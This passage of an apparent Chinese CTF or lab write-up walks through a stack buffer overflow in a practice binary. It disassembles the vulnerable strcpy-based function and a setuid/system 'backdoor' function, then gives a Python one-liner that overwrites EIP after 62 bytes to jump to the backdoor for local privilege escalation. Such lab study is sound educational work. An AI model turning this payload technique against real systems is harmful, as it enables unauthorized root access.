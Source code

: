 分别查看这个几个函数在程序中有什么动作？

```
gdb-peda$ disas vuln
```

![image-20211124170831901](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211124170831901.png)

对strcpy函数进行搜索，该函数曾存在缓冲区溢出漏洞

![image-20211124171130950](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211124171130950.png)

```
gdb-peda$ disas backdoor
```

![image-20211124171814589](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211124171814589.png)

调用了setuid函数提权，调用了system函数执行指令，

思考：我们需要对system函数进行跟踪，则需要记录下起始的内存地址（0x08048676），通过程序的正常执行，通过explain变量注入的数据，在62个字节之后，如果能把该地址写入EIP寄存器中，EIP寄存器就会读取该地址下的所有指令，并分别执行setuid、system指令，紧接着可以通过设置断点，单步跟进到system指令，查看其执行了什么命令，是否有可利用的点？来实现提权的目标。

思路：

主程序会调用执行vuln函数-->vuln函数又调用了存在缓冲区溢出漏洞的内嵌函数strcpy-->但主程序内并未调用backdoor函数-->所以利用主程序内加载的vuln函数中的strcpy函数的缓冲区溢出漏洞-->向EIP寄存器内写入backdoor的起始内存加载地址-->以执行backdoor函数-->执行setuid函数、执行system函数-->执行system函数中的操作系统指令-->有没有可能注入payload-->完成本地提权？



向EIP寄存器内写入backdoor的起始内存加载地址（定向到payload内）：

```
python -c "import struct; print('zz\n1\n1\n1\n' + 'A'*62 + struct.pack('I', 0x08048676))" > payload
```

```
cat payload
```

![image-20211124174848606](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211124174848606.png)

```
gdb-peda$ q     #退出调试器
```

回到目标靶机

```
。r b r
```

![image-20211124175728595](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211124175728595.png)

```
gdb -q ./add_record    #重新打开gdb调试
```

```
gdb-peda$ r < payload
```

